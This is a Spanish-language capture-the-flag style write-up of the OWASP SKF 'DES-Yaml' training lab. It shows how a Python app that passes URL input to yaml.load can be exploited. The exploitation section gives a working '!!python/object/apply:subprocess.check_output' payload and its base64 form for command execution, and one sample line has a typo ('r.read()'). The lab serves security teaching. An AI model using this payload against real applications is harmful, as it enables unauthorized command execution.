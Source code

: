 ```yaml
---
title: "[Lab] Python (DES-Yaml)"
date: 2023-12-25
categories: [OWASPTop10]
tags: [owasptop10, hacking, python, yaml]
---
```




# Python – Ataque de Deserialización Yaml (DES-Yaml)


### Más info:

- Links
    
    pkmurphy - (”[https://www.pkmurphy.com.au/isityaml/](https://www.pkmurphy.com.au/isityaml/)”)
    
    techiedelight - (”[https://www.techiedelight.com/es/parse-yaml-file-python/#:~:text=Usando yaml.,load() función](https://www.techiedelight.com/es/parse-yaml-file-python/#:~:text=Usando%20yaml.,load()%20funci%C3%B3n).”)
    

## Instalación

```bash
git clone https://github.com/blabla1337/skf-labs
cd skf-labs/python/DES-Yaml
# Puede dar problamas
pip2 install pyyaml
python2.7 DES.py

# Opción alternativa
docker pull blabla1337/owasp-skf-lab:des-yaml
docker run -dit -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:des-yaml
```

![Untitled](../assets/OWASP-TOP-10/Python – DES-Yaml Attack/Untitled.png)

## ¿Qué es YAML?

Al igual que JSON, YAML Ain't Markup Language (YAML) es un formato de datos que utilizan las aplicaciones para almacenar y transportar datos. YAML se considera un superconjunto de JSON.

## Análisis de código

Como se puede ver, en la URL hay una cadena en base64 y en la página se muestra un mensaje.

Al ver el código de la aplicación, se puede ver cómo al apuntar a la ruta raíz, se redirige a la ruta con el base64, luego se está decodificando la cadena que se ingrese como input en el directorio “/information/” y se almacena en la variable “yaml_file” y después se carga esta variable “yaml_file” con “yaml.load” y se almacena en la variable “content”.

![Untitled](../assets/OWASP-TOP-10/Python – DES-Yaml Attack/Untitled 1.png)

Al decodificar la cadena, se ve el siguiente mensaje:

![Untitled](../assets/OWASP-TOP-10/Python – DES-Yaml Attack/Untitled 2.png)

Es el mismo mensaje que se muestra en la página web.

Con esta estructura YAML, se puede crear una sentencia especialmente diseñada para que al ser deserializada e interpretada, se pueda ejecutar comandos.

### Ejemplo de uso de la librería “yaml” en python

Primero se crea un archivo con datos:

![Untitled](../assets/OWASP-TOP-10/Python – DES-Yaml Attack/Untitled 3.png)

Ahora se abrirá una consola interactiva con python3 para cargar el archivo creado con YAML:

```bash
import yaml
f = open("datos.txt", "r")
f.read()

f = open("datos.txt", "r")
yaml.load(f.read())
# El "r" se usa para indicar solo lectura

# Si sale un error, se puede cargar de la siguiente manera
f = open("datos.txt", "r")
output = yaml.load(r.read())
print(output)
```

![Untitled](../assets/OWASP-TOP-10/Python – DES-Yaml Attack/Untitled 4.png)

## Explotación

Como la web toma e interpreta el input que se le ingresa en la URL sin ningún tipo de sanitización, se podría aprovechar esta estructura para ingresar una cadena que permita ejecutar comandos.

```bash
# Cadena en texto plano
yaml: !!python/object/apply:subprocess.check_output ['id']

cat data | base64 -w 0; echo
eWFtbDogISFweXRob24vb2JqZWN0L2FwcGx5OnN1YnByb2Nlc3MuY2hlY2tfb3V0cHV0IFsnaWQnXQo=

-w 0 # Sirve para mostrar el output en la misma línea
```

![Untitled](../assets/OWASP-TOP-10/Python – DES-Yaml Attack/Untitled 5.png)

Ahora se copia la cadena en base64 y se ingresa como input en la URL:

![Untitled](../assets/OWASP-TOP-10/Python – DES-Yaml Attack/Untitled 6.png)
